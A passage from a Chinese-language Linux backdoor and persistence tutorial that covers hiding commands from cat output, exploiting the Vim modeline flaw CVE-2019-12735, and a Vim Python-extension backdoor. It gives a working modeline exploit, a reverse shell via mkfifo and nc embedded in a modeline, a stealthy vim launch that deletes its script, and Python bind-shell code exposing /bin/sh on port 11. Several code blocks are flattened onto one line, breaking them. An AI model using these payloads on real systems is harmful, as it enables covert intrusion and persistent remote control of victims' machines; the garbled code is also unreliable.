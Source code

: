 使用 py 生成了一个 test.sh 脚本，同目录下只有他本文件，cat查看一下：

![](https://minioapi.nerubian.cn/image/20250120141427604.png)

执行一下test.sh：

![](https://minioapi.nerubian.cn/image/20250120141431238.png)

cat -A 再次查看一下：

![](https://minioapi.nerubian.cn/image/20250120141434826.png)

其实可以看出来这样就做到了恶意命令隐藏的效果。其实之前 Cron 后门中的隐藏方法就是利用了这个。如果使用 cat -A 查看root文件的话就可以看到计划任务的真正内容了。

### 0x07 Vim后门

#### vim modeline(CVE-2019-12735)

该漏洞存在于编辑器的 modeline功能，部分 Linux 发行版默认启用了该功能，macOS 是没有默认启用。 当 vim 打开一个包含了 vim modeline 注释行的文件时，会自动读取这一行的参数配置并调整自己的设置到这个配置。vim默认关闭modeline。

开启命令：



`vim ~/.vimrc set modeline`

当前目录下创建文件：



`echo ':!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="' > hello.txt vim hello.txt`

![](https://minioapi.nerubian.cn/image/20250120141438823.png)

反弹shell：



`:!rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 9999 >/tmp/f||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="`

#### vim python 扩展后门

适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统。



`cd /usr/lib/python2.7/site-packages && $(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py`

恶意脚本 dir.py 的内容可以是任何功能的后门，比如监听本地的11端口：



```
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html from socket import * import subprocess import os, threading, sys, time if __name__ == "__main__":        server=socket(AF_INET,SOCK_STREAM)        server.bind(('0.0.0.0',11))        server.listen(5)        print 'waiting for connect'        talk, addr = server.accept()        print 'connect from',addr        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,                stdout=talk, stderr=talk, shell=True)
```
